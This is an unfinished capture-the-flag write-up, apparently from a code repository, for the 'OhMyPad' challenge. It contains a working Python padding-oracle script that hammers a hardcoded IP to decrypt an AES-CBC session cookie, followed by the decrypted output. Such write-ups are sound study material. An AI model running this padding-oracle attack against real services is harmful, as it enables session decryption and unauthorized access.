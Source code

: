 # OhMyPad

### [~$ cd ..](../)

For this challenge we were given, a website wich had nothing but a login page.
After inspecting the page code, we noticed two interesting comments :
* There is a test account using `test` as username and password.
* There is a roadmap telling to move away from CBC AES for cookie encryption.

So we logged in using the test account, and tried to attack the cookie using an oracle attack using the following script :

```py
from paddingoracle import BadPaddingException, PaddingOracle
from base64 import b16encode, b16decode
from urllib import quote, unquote
import requests
import socket
import time

class PadBuster(PaddingOracle):
    def __init__(self, **kwargs):
        super(PadBuster, self).__init__(**kwargs)

    def oracle(self, data, **kwargs):
        print("[*] Trying: {}".format(b16encode(data)))

        # Do Crypto that throws something different if padding error
        r = requests.get("http://34.248.41.47/portal", cookies = {"SESSION":b16encode(data)})
        if r.status_code == 500:
            raise BadPaddingException

if __name__ == '__main__':
    import logging
    import sys

    logging.basicConfig(level=logging.DEBUG)
    # This is a random string the server printed for us,
    # assuming have to decrypt this, and see what we get
    #Decrypted: 126EFEB2A31FA50C05418F58F95F6D1091C8076370C1DE6414968164348571F93A83777542E1C9983C75FD330E3AA69248974FDDEAEB343B26DD7FB5B7D806CF => bytearray(b'9c8aa499a41d52109197fe5bfc843857|test|test@nviso.de\r\r\r\r\r\r\r\r\r\r\r\r\r')
    encrypted_value = '126EFEB2A31FA50C05418F58F95F6D1091C8076370C1DE6414968164348571F93A83777542E1C9983C75FD330E3AA69248974FDDEAEB343B26DD7FB5B7D806CF'
    padbuster = PadBuster()

    value = padbuster.decrypt(b16decode(encrypted_value), block_size=16, iv=bytearray(16))

    print('Decrypted: %s => %r' % (encrypted_value, value))
```

After a few minutes of intense server requests we finally decrypted the cookie.

```
bytearray(b'9c8aa499a41d52109197fe5bfc843857|test|test@nviso.de\r\r\r\r\r\r\r\r\r\r\r\r\r')
```

Unfortunately that didn't get us any further.

NOT DONE
